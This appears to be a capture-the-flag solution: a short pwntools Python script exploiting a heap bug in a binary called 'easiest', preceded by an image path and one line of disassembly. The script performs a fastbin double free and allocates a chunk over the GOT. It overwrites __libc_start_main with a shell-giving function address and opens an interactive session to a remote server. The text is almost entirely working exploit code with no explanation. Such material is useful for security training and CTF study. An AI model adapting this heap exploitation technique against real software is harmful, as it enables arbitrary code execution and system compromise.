 ```
.got.plt:0000000000602080 _got_plt        ends
```



```
from pwn import *

debug = int(raw_input("debug:"))

elf = ELF("./easiest")

if debug:
    p = process("./easiest")
    context.log_level = "debug"
else:
    p = remote("39.96.9.148", 9999)
    context.log_level = 'debug'

def add(index, length, content):
    p.sendlineafter("delete", "1")
    p.sendlineafter(":", str(index))
    p.sendlineafter("Length:", str(length))
    p.sendafter("C:", content)

def delete(index):
    p.sendlineafter("delete", "2")
    p.sendlineafter(":", str(index))

size = 0x30
add(0, size, "a" + "\n")
add(1, size, "b" + "\n")
add(2, size, "c" + "\n")
add(3, size, "a" + "\n")
add(4, size, "a" + "\n")

delete(3)
delete(0)
delete(1)
delete(0)

sys_addr = 0x400946
print hex(elf.got['__libc_start_main'])
add(0, size, p64(elf.got['__libc_start_main'] - 0x1e) + "\n")
add(1, size, "b" + "\n")
if debug:
    attach(p)
add(5, size, "d" * 3 + p64(sys_addr) + "\n")
add(6, size, "a" * 0xe + p64(sys_addr) + p64(sys_addr)[0:7] + "\n")
p.interactive()
```

